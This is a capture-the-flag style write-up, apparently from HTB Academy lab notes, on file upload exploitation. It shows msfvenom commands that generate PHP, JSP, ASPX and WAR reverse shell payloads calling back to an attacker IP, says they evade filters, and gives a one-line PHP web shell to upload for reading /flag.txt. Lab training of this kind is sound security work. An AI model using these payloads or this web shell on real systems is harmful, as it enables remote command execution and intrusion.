 
## Generating Custom Reverse Shell Scripts

> **🛠️ Automated Creation:** Using msfvenom to generate custom reverse shell payloads

### msfvenom Reverse Shell Generation

**PHP Reverse Shell:**
```bash
msfvenom -p php/reverse_php LHOST=10.10.14.55 LPORT=4444 -f raw > reverse.php
```

**JSP Reverse Shell:**
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.55 LPORT=4444 -f raw > reverse.jsp
```

**ASPX Reverse Shell:**
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.55 LPORT=4444 -f aspx > reverse.aspx
```

**WAR Reverse Shell (Tomcat):**
```bash
msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.55 LPORT=4444 -f war > reverse.war
```

### msfvenom Advantages
- **Bypass restrictions** - May evade certain security filters
- **Multiple formats** - Various output formats available
- **Custom encoding** - Built-in evasion techniques
- **Framework specific** - Optimized for different web technologies


---

## HTB Academy Lab Solution

### Target Information
- **Target:** `94.237.49.23:52640`
- **Objective:** Upload web shell and retrieve `/flag.txt`
- **Technique:** File upload exploitation

### Step-by-Step Solution

**Step 1: Create Simple Web Shell**
```php
<?php system($_REQUEST['cmd']); ?>
```

**Step 2: Upload Web Shell**
```bash
# Save as shell.php
# Upload through vulnerable upload form
# Note upload location (e.g., /uploads/)
```
